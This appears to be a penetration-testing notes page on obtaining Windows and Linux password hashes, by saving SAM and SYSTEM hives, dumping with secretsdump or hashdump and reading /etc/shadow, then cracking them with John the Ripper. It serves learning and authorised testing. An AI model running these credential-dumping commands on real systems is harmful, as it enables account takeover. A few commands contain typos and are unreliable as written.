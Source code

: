 # Passwords

## Obtaining Windows Passwords

Windows credentials may come from an Active Directory account or stored locally. Passwords are stored in two ways: The LAN Manager password hash and the NT password hash. They are often seen together separated by a colon and known as an NTLM hash pair. Neither are salted. LM hashes are limited to 14 characters.

### Finding Hashes

```bash
net user  # List user accounts
net user <user>  # Get more details of a specific user
```

Credentials are stored in the SAM database and we need to be an Administrator to see it.

```bash
dir \windows\system32\config  # Directory contains the SAM file
```

The SAM file is locked when the operating system is active. We will need to take a backup of the SAM file instead while the machine is active as well as the security file and the system file.

```bash
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```

After copying the files over to Kali we can extract the hashes from the SAM database.

```bash
# Using samdump
samdump2 system.save sam.save
# Using pwdump
pwdump system.save same.save
# Using secrets dump from Impacket
python secretsdump.py -sam sam.save -system system.save LOCAL
```

If we have a Meterpreter session we can use the `hashdump` command to try to dump the hashes.

### Cracking Hashes

Now that we have a list of hashes we can place the hashes outputs into a file and then attempt to crack them using John The Ripper.

```bash
john myhash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT-old
```

Another tool we can use to find and crack hashes is Sam Inside (GUI).

## Obtaining Linux Passwords

### Finding Hashes

On a standard Linux system the user accounts are stored in the `/etc/passwd` file. There will be an 'x' where the password used to be but is now stored in the file `/etc/shadow`.&#x20;

```bash
cat /etc/passwd
cat /etc/shadow
```

### Cracking Hashes

We can combine the two files to extract the user and password information and then attempt to crack them using John The Ripper.

```bash
unsahdow passwd shadow > full.txt
john full.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
